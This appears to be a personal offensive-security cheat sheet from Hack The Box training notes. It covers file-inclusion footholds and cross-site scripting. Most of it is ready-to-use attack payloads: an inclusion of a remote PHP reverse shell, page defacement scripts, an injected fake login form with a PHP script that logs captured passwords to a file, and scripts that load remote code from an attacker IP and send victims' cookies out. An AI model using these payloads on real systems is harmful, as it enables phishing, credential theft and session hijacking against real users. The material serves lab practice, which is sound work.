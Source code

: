 ## Windows Boxes
  - Foothold: 
    - Remote File Inclusion/Local File Inclusion
    - ?page=C:/Windows/System32/drivers/etc/hosts
    - ?page=http://192.168.45.208/php-rev-shell.php

# XSS
**Defacement Elements**
```bash
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
<script>document.title = 'HackTheBox Academy'</script>
```

**Phishing**
```bash
# After finding vulnerable field to XSS injection, inject a login form and remove the existing input form
<script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
</script>

# index.php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
# we can start a PHP listening server
mightyllama@htb[/htb]$ mkdir /tmp/tmpserver
mightyllama@htb[/htb]$ cd /tmp/tmpserver
mightyllama@htb[/htb]$ vi index.php #at this step we wrote our index.php file
mightyllama@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started

```
**Session Hijacking**
```bash
# Loading a Remote Script
<script src=http://OUR_IP/username></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>

# When we have to discover which field is vulnerable
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...

# Using any of the two payloads should work in sending us a cookie
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;

```